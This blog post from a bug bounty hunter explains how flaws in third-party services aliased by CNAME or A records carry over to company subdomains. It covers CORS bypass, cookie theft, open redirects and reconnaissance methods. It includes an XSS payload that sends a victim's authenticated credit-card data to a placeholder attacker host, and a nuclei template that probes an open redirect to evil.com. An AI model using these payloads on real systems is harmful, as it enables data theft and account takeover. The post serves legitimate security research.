 ```yaml
---
layout: single
title: Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations
date: 2021-02-15
classes: wide
header:
  teaser: /images/3rdparty_teaser.png
tags:

  -BugBounty
--- 
```


**Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations**

![preview](/images/3rdparty_teaser.png)

## Agenda

During my last couple of months engaging with bug bounties on companies who hold responsible disclosure policy, I have encountered what might be called as some sort of routine, which helped me score bounties on companies regardless of their size.

This is due to what I will refer on this blog post as "Vulnerability Inheritance"

In this blog I'll cover the following:

![preview](/images/agenda.png)


### General

In today’s world, software companies are growing rapidly and so the need for new designs and features to implement ontop of the company current niche, which draws large portion of the software developers attention.

Companies will opt to “adopt” 3rd party services to achieve certain functionality goals, which would give them a "cheap" and time rewarding solution instead of investing manpower on maintaining and devloping certain "sideways" features which are already being maintaned and constantly developed by big companies.

While doing so is indeed rewarding and has many benefits, it do come out with a security price which needs to be considered and handeld correctly by the companies.

The 2 main methods in which we can integrate 3rd party services within our company domains are the following:

![2ways](/images/2ways.png)

The main area which I will cover are within the CNAME and A records integrations, for <script> and <iframe> integrations, there are several vulnerabilities which can arise and I'd suggest watching our Chief Architect at enso.security talk about postMessage exploitations which we had given earlier this year.

**Understanding CNAMES and A records**

CNAME records can be used to alias one name to another. CNAME stands for Canonical Name.
A common example is when you have both example.com and www.example.com pointing to the same application and hosted by the same server. 
To avoid maintaining two different records, it’s common to create:
* An A record for example.com pointing to the server IP address
* A CNAME record for www.example.com pointing to example.com

As a result, example.com points to the server IP address, and www.example.com points to the same address via example.com. If the IP address changes, you only need to update it in one place: just edit the A record for example.com, and www.example.com automatically inherits the changes.

**Understanding CNAMES and A records DNS flow**

![dns_cname](/images/cname_dns.png)

By observing the DNS flow above, you could already start to glimpse the point why security vulnerabilities are being arised from integrations as such.

There are 2 ways to implement 3rd party integrations through DNS records:

* Assigning a CNAME record from a subdomain to the 3rd party service, by doing so we "alias" the contents from the 3rd party website to serve on our subdomain.

* Assigning A record to an IP address which will run the vendor's service with slight modificatitions.

![flow_nagli](/images/flow.png)

After understanding the basics, we can dive deeper into the threat and attack models section

### Threat and attack models

![threat](/images/threat.png)

As we approach the threats and attack models phase, we need to understand that the main attack vectors we will look for are **Client Side Vulnerabilities**, this should make sense by now as we are attacking the company subdomain which is being served as an alias to third party service, in other words:

Achieveing RCE on the target would actually mean that we have remote code execution on the vendor's server
Achieving SSRF on the target would actually mean that we have Server Side Request Forgery from the vendor's IP
Achieveing XXE on the target would actually mean that we have XML External Entity attack on the vendor's server

Those attacks are severe and can affect the subdomain we are targeting, but as for the impact we are going for to the actual company we are targeting, it will still remain within the same attack models that we can achieve from Client Side Vulnerabilities on the specific subdomain.

I believe that Subdomain takeovers and Dangling dns records are wide known and understood with the community, there are bunch of great tutorials and explanations on these attacks and It's not the main discusstion area of the blog, yet it has to be mentioned and I'll share on the reconnaissance my methodology targeting and automatic the process of finding those.

![tko](/images/tko.png)

![dangling](/images/dangling.png)

Now, let's dive into the main part of the talk.

Client side vulnerabilities such as Cross Site Scripting and Open Redirects are often considered the most common bugs to be found by bug bounty hunters, as such many defence measures are being integrated and considered by companies todays such as implementing CSP (Content-Security-Policy), Deploying a WAF (Web Application Firewall), strict regex controls and sanitizing user input on all fields at all costs (Almost an impossible task).

Those solutions are good, although there are many WAF and CSP Bypasses which are being discovered from time to time, it will mostly do good job with protecting your companies domain from the straight forward attacks.

**But**,
When we integrate 3rd party service to our domain by pointing to it with a CNAME or A record, we are serving an alias of the vendors website, and the defense measures which we have taken throught the entire development process are no longer effective.

Upon integration we are being 100% dependent on the vendors security policy regarding vulnerabillities.

And this is where the **"Vulnerability Inheritance"** part comes to play, whenever we decide to integrate a new service, we will inherit it's entire security flaws to be served under our domain.

Let's take a quick look on the matter:

Assume we have found Stored XSS on a third party vendor, let's say on .welearn.com, and the company which we are targeting - target.com has a subdomain named study.target.com which points to target.welearn.com, target.com is well protected with strict CSP in place and up to date WAF.

Because study.target.com is a CNAME, it won't have any of these protections inplace, which could have blocked the XSS we have found on the 3rd party vendor.

Now, we will navigate to the subdomain and execute the XSS, as we could have anticipated it's affecting website as well as the vendors website, and the document.domain of the execution is being changed accordingly. 

![xss](/images/xss.png)

That's nice, so we found a vulnerability on a subdomain of our target.com company, and we have done so without tackling any of the defense in depth security measures being implemented on their domains. it's already a valid vulnerability if the company has wildcard domain inscope for assessment.

As I have encountered from time to time with my assessments, often the targeted companies won't realize the impact for such vulnerabilities, and they can issue a generic response as:

"Nice find, although the subdomain you have targeted is affecting 3rd party service which isn't under our control, and there is no impact by doing so."

The vulnerability itself indeed cannot be resolved by the company which we target, and they best mitigation considering the severity is to take down the website for maintanence until the vendor will fix it's flows.

Regarding the impact, it's subjective to the companies design and implementations, and it could be used as a chain to more severer actions.

**Bypassing CORS protections**

To those who are unfamilliar with the **Cross Origin Resource Sharing** mechanism:

Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any other origins (domain, scheme, or port) than its own from which a browser should permit loading of resources.

Upon examining the main functions of our target website, if we come across the following set of headers and there is sensitive data being returned on the page, we defintly should stop and investigate what happens:

```javascript
Access-Control-Allow-Origin: https://galnagli.com
Access-Control-Allow-Credentials: true
```

When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the `*` wildcard.

We want to make a request with the Access-Control-Allow-Credentials: true header, as it would allow fetching data with the user credentials attached (as authenticated personal).

Targets who set their CORS policy could have it assigned as "Wildcard" whenever dealing with requests which doesn't require authentication.
And as defense mechanism they would allow specifing the origin on authenticated requests only to be scope for the targets subdomains, such as 

```javascript
*.galnagli.com
```

It means that if we want to initiate a request from a subdomain of our target, we will specify it's name on the Allow-Origin header, which will look like the following:

```javascript
Access-Control-Allow-Origin: https://study.galnagli.com
Access-Control-Allow-Credentials: true
```

Now, as we have discovered Cross Site Scripting vulnerability on that subdomain, and although it occurres because of the 3rd party vendor misconfigurations, the origin of execution is being tied to our subdomain, which is inscope of making credential requests to the main domain as per our target configuration.

We can use our XSS to fetch sensitive information which is being stored on the parent domain by issuing a script similar to:

```javascript
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://galnagli.com/creditcard.json',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
</script>
```

Storing this as the Cross Site Scripting payload will send to our attacker controlled server the creditcard.json authenticated response for each visitor who visits the affected subdomain and executes the script.


**Cookies exfiltration**

When companies are setting up cookies on their main websites, they tend to configure them with domain attribute, with makes them accessible and stored on the respective subdomains as well.

As per MDN:
```
Domain attribute
The Domain attribute specifies which hosts are allowed to receive the cookie. If unspecified, it defaults to the same host that set the cookie, excluding subdomains. If Domain is specified, then subdomains are always included. Therefore, specifying Domain is less restrictive than omitting it. However, it can be helpful when subdomains need to share information about a user.

For example, if Domain=mozilla.org is set, then cookies are available on subdomains like developer.mozilla.org.
```

It means that if we manage to find XSS vulnerability on our subdomain, we can exfiltrate the cookies which are being set on the parent domain, only if they are not protected by HTTPOnly flags.

We can use the cookies attached to issue requests from the victim perspective (such as CSRF attacks) regardless of the cookies being set to HTTPOnly.

![cookie](/images/cookie.png)

**Business Logic Errors**

Similar to the impact of subdomain takeover, instead of stealing the domain and to show a generic alert popup from that subdomain, we can use that subdomain to demonstrate legitimate service claiming to be on behalf of the original domain, while its actually being managed by the attacker.

Let's take to an example if we managed to takeover a shopify domain of the target domain, served on shop.target.com:

![business](/images/business.png)

**Open Redirect as a chain**

Assuming we have found open redirect on our vulnerable 3rd party vendor, which affects our subdomain shop.galnagli.com.
This could be used as a chain to more severe attacks, some companies would accept the open redirect as P4, but this should be considered last resort after trying to achieve greater affect and impact through different and more severe vulnerabilities such as Account Takeover or SSRF Bypasses.

**Account Takeover**

Let's take a look at the following example:

![redirectko](/images/redirect_tko.png)

While this issue looks straight forward like regular open redirect to account takeover, it's not that case so often.
Because we have another location to redirect through, we will often encounter a redirection chain which won't carry the authentication code throughout the entire process, we need to have certain redirection which fetches and issues the call through the DOM of certain page, and only redirects to the final domain from the original initiator

```javascript
https://galnagli.com - > https://shop.galnagli.com -> https://sadf.burpcollaborator.com - Most likely won't carry the auth code.
https://galnagli.com - > **middleman redirection processing page** -> https://sadf.burpcollaborator.com - Most likely will work.
```


**SSRF Bypass**

Similar to the previous vulnerable scenario, we can achieve SSRF by bypassing allowed whitelisted wildcard urls at certain scenarios.

![ssrf](/images/ssrf.png)

### Reconnaissance

The Reconnaissance part should be divded to 2 main parts:

![recon](/images/2recon.png)

Our first task is to find a potenial target to test for possible vulnerabilities.

I prefer to scan the our target first and look for 3rd parties services which are integrated already in their flow, although a researcher could opt to find web 0-days on 3rd party vendor services before looking for any target, I'm not sure it hold the ethical phase if the vendor won't operate any responsible disclosure policy (which is really bad for vendor's to not have one of those)

And you might find a vulnerability which won't affect any target who offers bug bounties or CVE to award your effort, so going through our target assets and expanding further should be the way to go.

We are mostly interested to find the CNAME records and potenial A records with titles who indicate the usage of 3rd party services.

There are many unix tools which could help us to determine the if certain host (https://www.example.com) has CNAME pointer to certain website, the most simple way to check for those would to run a dig scan

```javascript
dig target.com CNAME
```
which should return in response similar answer to:

```javascript
shop.galnagli.com.     300     IN      CNAME   galnagli.myshopify.com
```

Although, there are better ways and faster tools which would let us run over large portion of domains and return on the same iteration the title of the webpage, and it's CNAME.
using the opensource httpx tool by ProjectDiscovery we can use the following script to scan a list of subdomains and extract their CNAMES records and titles, given a list of subdomains with their respective status code.

```javascript
cat subdomains.txt | httpx -cname -title -status-code > rawdata.txt
```

```javascript
https://shop.galnagli.com [404] [This shopping website is unclaimed] [galnagli.myshop.com]
https://events.galnagli.com [200] [Welcome to eventstoday platform] [galnagli.eventstoday.com]
```

So we have determined that our subdomain has CNAME pointer to 3rd party vendor, assuming our target accepts wildcard reports and going over the entire blog until this point, we can explore the for vulnerabilities on the vendors website and apply those on the in-scope subdomain.

Even if events.galnagli.com didn't have a CNAME record to eventstoday, and was hosting it on a IP address with A record, the title of the webpage would exfiltrate the fact that it's a 3rd party service.

Apart from automation, we can never takeaway from manually inspecting websites. 
we could usually encounter via the sourcecode image locations or "signatures" on the page the fact that we are being served a 3rd party vendors code.

So, we found a target, and we managed to find vulnerabilities on it such as XSS or Open-Redirect, that's great and should count as a valid report.

However, the potenial is way bigger, now we have a "0 day" on web application service, and we should scrape the internet at scale to find other big vendors who uses the same service to host content on their domains.

![fingerprint](/images/fingerprint.png)


**Google Dorks**

Common google dorking patterns which can aid us in finding more potenial vulnerable targets will be utilized by the "site", "inurl" and "intext" Google dorks

![dorks](/images/dorks.png)

**Customers page**

Often, one of the most benefiting and simple solutions expanding our vulnerable targets batch is to navigate to the 3rd party vendors, which usually contains a Customer or About us page with data about new targets to explore.

Sometimes you could get indication of the number of vulnerable assets, as they vendor might state "Trusted by 100K Companies around the world", that's surely good news!

**Reverse CNAME lookup**

One of the most accurate and to the point methods to find vulnerable targets is by utilizing Reverse CNAME lookups which is being offered by several online services.

This solution might not be free, those are services like Shodan, Censys or Spyse who scrape the entire internet assets data and store them into their databases.
By doing so they allow us to filter our searches to find the CNAME pointers values of assets, by looking up for the 3rd party vendor CNAME Scheme.

Personally I have used spyse's service, and it worked just fine.

![dorks](/images/reverse_cname.png)

**Path Fingerprinting**

Sometimes, we find our vulnerability on a custom path which seems pretty unique and it could be used as an identifier for potenial vulnerability.
We have great open source tools such as meg by tomnomnom or Nuclei by ProjectDiscovery which can help us either create a template or query the request with the certain path

Example of creating a template with nuclei .yaml templates:

```javascript
id: welearn-redirect

info:
  name: Open Redirect vulnerability on welearn websites
  author: Gal Nagli
  severity: Medium
  tags: redirect


requests:
  - method: GET

    path:
      - "{{BaseURL}}/api/welearn/v2/exitnotice?goto=http://evil.com"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 302
      - type: word
        words:
          - "<a href=\"http://evil.com>""
        condition: or
        part: body
 ```

What this template will check is giving a request to our URL with the specific path supplied, is the response returns 302 status code with the words ```<a href=https://evil.com>``` in it? if so - pop an alert.
  
You save your file as welearn-redirect.yaml, add it to your nuclei templates and can run it on millions of subdomains in no-time.

![path](/images/path.png)


### Practical exploitations

Unfortunately, at this point of time I don't have permission to disclose the full details of my findings as 6 month haven't gone by yet, however among all my findings had affected companies like: Google, Snapchat, Twitter, HackerOne, BugCrowd, Amazon, Facebook and many more.

also, hundred of thousands websites on total affected from the "0 days" on these 3rd party vendors (which some of those are not fixed yet)

**Most Common Findings**
- [X] Subdomain Takeovers
- [X] Stored XSS on 3rd party email templates
- [X] Reflected XSS on events platform
- [X] Open Redirect on 2 Learning platforms
- [X] Account takeover on Survey platform

**Proof of concepts**

![pocs](/images/pocs.png)

### Takeaways

**This subject will only grow and become more frequent**

**Caution when assigning CNAME records**

**Monitoring**

## END
